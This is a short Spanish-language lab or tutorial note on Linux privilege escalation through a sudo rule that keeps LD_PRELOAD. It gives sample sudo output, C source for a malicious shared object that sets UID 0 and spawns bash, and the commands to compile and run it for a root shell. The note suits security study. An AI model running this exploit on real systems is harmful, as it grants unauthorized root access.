 Si sudo muestra **env_keep+=LD_PRELOAD** se puede explotar compilando un binario en C.
https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
Ejemplo:
```perl
Matching Defaults entries for paul on preload:                     
    env_reset, mail_badpass, -----env_keep+=LD_PRELOAD------, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin       
                                                                                                                                       
User paul may run the following commands on preload:               
    (root) NOPASSWD: /usr/bin/cat
```

Programa en C
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

Compilar
```
gcc -fPIC -shared -o shell.o shell.c -nostartfiles
```
Ejecutar
```
sudo LD_PRELOAD=/tmp/shell.o /usr/bin/cat
```